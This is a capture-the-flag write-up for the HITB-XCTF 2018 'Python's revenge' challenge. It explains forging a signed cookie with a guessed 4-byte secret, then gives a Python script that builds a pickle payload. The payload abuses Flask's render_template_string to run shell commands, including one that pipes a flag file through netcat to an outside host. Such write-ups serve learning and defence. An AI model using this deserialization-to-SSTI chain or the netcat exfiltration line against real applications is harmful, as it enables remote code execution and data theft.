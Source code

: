 # HITB-XCTF 2018 Quals : Python's revenge

## Write-up

first, we could see that “cookie_secret” did not change and that it was only 4 bytes.
through the process of creating the same cookie, we can see that "cookie_secret" is "hitb".
So we were able to create cookies that worked fine and could use the "pickle load bug".

But, Filtering with “black_type_list” was strict.
So we came up with another vulnerability called SSTI using "render_template_string".

```py
from base64 import b64decode as b64d
from base64 import b64encode as b64e
from hashlib import sha256
import pickle
def make_cookie(location, secret):
    return "%s!%s" % (calc_digest(location, secret), location)

def calc_digest(location, secret):
    return sha256("%s%s" % (location, secret)).hexdigest()

cookie_secret = "hitb" 
#a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()[40]('app.py').read()}}\"\np1\ntp2\nRp3\n."
#a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()}}\"\np1\ntp2\nRp3\n."

a = "cflask.templating\nrender_template_string\np0\n(S\"{{request.__class__.__mro__[8].__subclasses__()[312]('cat ../flag_is_here|nc wooeong.kr 9999',shell=True)}}\"\np1\ntp2\nRp3\n."
location = b64e(a)
print repr(location)
cookie = make_cookie(location, cookie_secret)
print repr(cookie)
```


> flag : # HITB{Py5h0n1st8eBe3tNOW}

